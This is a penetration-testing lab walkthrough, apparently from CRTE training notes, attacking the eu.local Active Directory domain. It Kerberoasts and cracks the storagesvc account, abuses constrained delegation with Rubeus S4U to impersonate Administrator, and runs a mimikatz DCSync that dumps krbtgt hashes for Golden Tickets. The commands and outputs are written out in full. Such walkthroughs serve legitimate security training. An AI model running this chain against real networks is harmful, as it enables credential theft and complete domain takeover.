 # 1. Kerberoasting
- From [[2. Lab Walkthrough/2nd Forest (eu.local)/eu.local/1. Domain Enumeration|1. Domain Enumeration]] we discovered a Kerberoastable domain account, `eu\storagesvc`. Let's request a TGS for that account using **Rubeus**.
```powershell
PS C:\Auditor> .\Rubeus.exe kerberoast /user:storagesvc /domain:eu.local /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : storagesvc
[*] Target Domain          : eu.local
[*] Searching path 'LDAP://EU-DC.eu.local/DC=eu,DC=local' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=storagesvc)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : storagesvc
[*] DistinguishedName      : CN=storagesvc,CN=Users,DC=eu,DC=local
[*] ServicePrincipalName   : MSSQLSvc/eu-file.eu.local
[*] PwdLastSet             : 1/8/2021 5:56:16 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*storagesvc$eu.local$MSSQLSvc/eu-file.eu.local@eu.local*$B6E53...
```
- We will now copy the _Hash_ value of the output, append it to a file and attempt to crack this TGS using **Hashcat**.
```zsh
┌──(root🔱KaliVM)-[/home/pri3st/Desktop/Training/CRTE]
└─# hashcat -O -a 0 -m 13100 storagesvc.tgs Tools/10k-worst-pass.txt

<snip>

$krb5tgs$23$*storagesvc$eu.local$MSSQLSvc/eu-file.eu.local@eu.local*$b6e53...:Qwerty@123

<snip>
```
- We have now a valid set of credentials, **storagesvc:Qwerty@123**.
# 2. Rights, Privileges and Permissions of `eu\storagesvc`
- We can now use the compromised credentials of `eu\storagesvc` to impersonate that account in a new, sacrificial PowerShell process, and attempt to move laterally in the network.
```powershell
PS C:\Auditor> .\Rubeus.exe asktgt /user:storagesvc /password:Qwerty@123 /domain:eu.local /ptt

<snip>
```
## 2.1 Access Rights
- `eu\storagesvc` does not have any access rights to domain computers or file shares.
## 2.2 Account Privileges
- `eu\storagesvc` had KCD privileges over `EU-DC`. This privilege allows a principal to authenticate as any user to specific services (found in the msds-AllowedToDelegateTo LDAP property in the source node tab) on the target computer. That is, a node with this privilege can impersonate any domain principal (including Domain Admins) to the specific service on the target host.
- Since the service name (sname) of the resulting ticket is not a part of the protected ticket information, an attacker can modify the target service name to any service of their choice.
- First, we need the RC4 hash of `us'storagesvc`'s plaintext password.
```powershell
PS C:\Auditor> .\Rubeus.exe hash /user:storagesvc /password:Qwerty@123 /domain:eu.local

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : Qwerty@123
[*] Input username             : storagesvc
[*] Input domain               : eu.local
[*] Salt                       : EU.LOCALstoragesvc
[*]       rc4_hmac             : 5C76877A9C454CDED58807C20C20AEAC
[*]       aes128_cts_hmac_sha1 : 4A5DDDB19CD631AEE9971FB40A8195B8
[*]       aes256_cts_hmac_sha1 : 4A0D89D845868AE3DCAB270FE23BEDD442A62C4CAD7034E4C60BEDA3C0F65E04
[*]       des_cbc_md5          : 7F7C6ED00258DC57
```
- We will abuse this using **Rubeus**, abusing the Kerberos _S4U2self/S4U2proxy_ modules to impersonate a high-privileged domain user, as well as requesting alternative TGSs for the services of our choice by abusing the unprotected `sname` attribute.
```powershell
PS C:\Auditor> .\Rubeus.exe s4u /user:storagesvc /rc4:5C76877A9C454CDED58807C20C20AEAC /domain:eu.local /dc:eu-dc.eu.local /impersonateuser:Administrator /msdsspn:time/EU-DC.eu.local /altservice:cifs,ldap,http,host,wsman /ptt

<snip>

PS C:\Auditor> klist

Current LogonId is 0:0x1b7af30

Cached Tickets: (5)

#0>     Client: Administrator @ EU.LOCAL
        Server: wsman/EU-DC.eu.local @ EU.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 12/9/2023 2:12:22 (local)
        End Time:   12/9/2023 12:12:22 (local)
        Renew Time: 12/16/2023 2:12:22 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:

#1>     Client: Administrator @ EU.LOCAL
        Server: host/EU-DC.eu.local @ EU.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 12/9/2023 2:12:22 (local)
        End Time:   12/9/2023 12:12:22 (local)
        Renew Time: 12/16/2023 2:12:22 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:

#2>     Client: Administrator @ EU.LOCAL
        Server: http/EU-DC.eu.local @ EU.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 12/9/2023 2:12:22 (local)
        End Time:   12/9/2023 12:12:22 (local)
        Renew Time: 12/16/2023 2:12:22 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:

#3>     Client: Administrator @ EU.LOCAL
        Server: ldap/EU-DC.eu.local @ EU.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 12/9/2023 2:12:22 (local)
        End Time:   12/9/2023 12:12:22 (local)
        Renew Time: 12/16/2023 2:12:22 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:

#4>     Client: Administrator @ EU.LOCAL
        Server: cifs/EU-DC.eu.local @ EU.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 12/9/2023 2:12:22 (local)
        End Time:   12/9/2023 12:12:22 (local)
        Renew Time: 12/16/2023 2:12:22 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```
- We can now execute a DCSync attack against `EU-DC` and exfiltrate credentials for the `eu\krbtgt` account that will allow us to craft Golden Tickets for domain persistence.
```powershell
PS C:\Auditor> .\mimikatz.exe

<snip>

mimikatz # lsadump::dcsync /user:eu\krbtgt /domain:eu.local /dc:eu-dc.eu.local
[DC] 'eu.local' will be the domain
[DC] 'eu-dc.eu.local' will be the DC server
[DC] 'eu\krbtgt' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 7/12/2019 10:00:04 PM
Object Security ID   : S-1-5-21-3657428294-2017276338-1274645009-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 83ac1bab3e98ce6ed70c9d5841341538
    ntlm- 0: 83ac1bab3e98ce6ed70c9d5841341538
    lm  - 0: bcb73c3d2b4005e405ff7399f3ca2bf0

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : a0c1c86edafc0218a106426f2309bafd

* Primary:Kerberos-Newer-Keys *
    Default Salt : EU.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d
      aes128_hmac       (4096) : e2ef89cdbd94d396f63c9aa5b66e16c7
      des_cbc_md5       (4096) : 92371fe32c9ba208

<snip>
```
## 2.3 Account Privileges
- `eu\storagesvc` does not have any interesting permissions.
